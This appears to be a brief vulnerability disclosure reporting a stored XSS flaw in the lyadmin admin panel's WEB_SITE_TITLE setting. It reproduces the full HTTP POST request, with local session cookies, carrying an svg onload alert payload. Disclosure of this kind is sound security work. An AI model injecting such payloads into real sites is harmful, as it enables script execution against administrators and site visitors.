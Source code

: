 ## lyadmin has xss in adminpage WEB_SITE_TITLE parameter ##

There is a xss vul in lyadmin> adminpage>system settig>WEB\_SITE\_TITLE parameter.
![](1.png)
post data:

    POST /admin.php?s=/admin/config/groupsave.html HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Referer: http://localhost/admin.php?s=/admin/config/group.html
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 2792
    Cookie: 2Z9B_ulastactivity=fa49zjMO1jZ9sd2fI26xxyNf4W5EncZkKfBQxO3doMLTd3xhdU4n; bdshare_firstime=1503887429098; UM_distinctid=1605806841810-0a2cbdd15cb31d-4c322e7d-1fa400-160580684193fb;ly_main_nav_limit=15; PHPSESSID=92akfp2p2ibe0v6ad4ia644ms6
    Connection: close
    
    config[WEB_SITE_TITLE]=lyadmin<svg/onload=alert('lyadmin')>

![](2.png)
